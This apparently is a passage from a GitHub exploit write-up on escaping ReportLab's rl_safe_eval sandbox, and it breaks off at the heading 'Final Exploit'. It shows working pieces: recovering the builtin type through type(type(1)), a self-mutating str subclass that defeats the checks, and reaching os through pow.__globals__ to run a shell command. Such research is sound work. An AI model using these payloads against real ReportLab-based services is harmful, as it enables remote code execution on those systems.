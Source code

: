 ```py
```

The custom type function in the safe eval does not allow to be passed three arguments:
```py
	def __rl_type__(self,*args):
		if len(args)==1: return type(*args)
		raise BadCode('type call error')
```
A bypass for this was found by calling type on itself, allowing the retrieval of the original builtin `type` function:
```py
orgTypeFun = type(type(1))
```

combining these two lines of code would give something like this:
```py
orgTypeFun = type(type(1))
Word = orgTypeFun('Word', (str,), {
            'mutated'   : 1,
            'startswith': lambda self, x: False,
            '__eq__'    : lambda self, x: self.mutate() and self.mutated < 0 and str(self) == x,
            'mutate'    : lambda self: {setattr(self, 'mutated', self.mutated - 1)},
            '__hash__'  : lambda self: hash(str(self))
            })
```
# Accessing global builtins

The original exploit has suffered from multiple short comings that made it exploitable only on python 3.10, to solve these issues a new approach has been made to access the `os` python module.

The Reportlab library overides the implementation of multiple builtin functions and inject them as globls into the eval context.

**Example of default builtin overriden by custom functions in rl_safe_eval.py:** 
```py
		__rl_builtins__['getattr'] = self.__rl_getattr__
		__rl_builtins__['dict'] = __rl_dict__
		__rl_builtins__['iter'] = self.__rl_getiter__
		__rl_builtins__['pow'] = self.__rl_pow__
		__rl_builtins__['list'] = self.__rl_list__
		__rl_builtins__['type'] = self.__rl_type__
		__rl_builtins__['max'] = self.__rl_max__
```


Since these functions are contructed in the global context the global variable and moduls can be accessed using the `__globals__` attribute of these custom functions.

***The following code should be executed inside the eval context***
```py
globalOsModule = pow.__globals__['os']
globalOsModule.system('touch /tmp/exploited')
```
# Final Exploit
Now what is left is to write the exploit:
